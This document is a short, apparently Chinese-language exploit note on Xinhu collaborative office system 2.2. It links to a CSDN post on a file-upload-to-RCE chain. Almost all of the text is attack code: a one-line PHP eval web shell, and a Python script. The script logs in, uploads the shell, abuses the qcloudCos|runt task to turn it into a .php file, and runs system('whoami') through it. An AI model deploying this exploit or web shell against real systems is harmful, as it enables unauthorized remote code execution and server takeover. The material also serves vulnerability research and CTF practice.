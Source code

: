## 2.2.8

[信呼协同办公系统2.2存在文件上传配合云处理函数组合拳RCE](file:///F:/LocalCTF/[%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1]%E4%BF%A1%E5%91%BC%E5%8D%8F%E5%90%8C%E5%8A%9E%E5%85%AC%E7%B3%BB%E7%BB%9F2.2%E5%AD%98%E5%9C%A8%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E9%85%8D%E5%90%88%E4%BA%91%E5%A4%84%E7%90%86%E5%87%BD%E6%95%B0%E7%BB%84%E5%90%88%E6%8B%B3RCE_%E4%BF%A1%E5%91%BC2.2.8%20%E6%BC%8F%E6%B4%9E-CSDN%E5%8D%9A%E5%AE%A2.html)

**脚本**

1.php

```php
<?php eval($_GET["1"]);?>
```

exp.py

```python
import requests


session = requests.session()

url_pre = 'http://url/'
url1 = url_pre + '?a=check&m=login&d=&ajaxbool=true&rnd=533953'
url2 = url_pre + '/index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=798913'
url3 = url_pre + '/task.php?m=qcloudCos|runt&a=run&fileid=11'

data1 = {
    'rempass': '0',
    'jmpass': 'false',
    'device': '1625884034525',
    'ltype': '0',
    'adminuser': 'dGVzdA::',
    'adminpass': 'YWJjMTIz',
    'yanzm': ''
}


r = session.post(url1, data=data1)
r = session.post(url2, files={'file': open('1.php', 'r+')})

filepath = str(r.json()['filepath'])
filepath = "/" + filepath.split('.uptemp')[0] + '.php'
id = r.json()['id']

url3 = url_pre + f'/task.php?m=qcloudCos|runt&a=run&fileid={id}'

r = session.get(url3)
r = session.get(url_pre + filepath + "?1=system('whoami');")
print(r.text)
```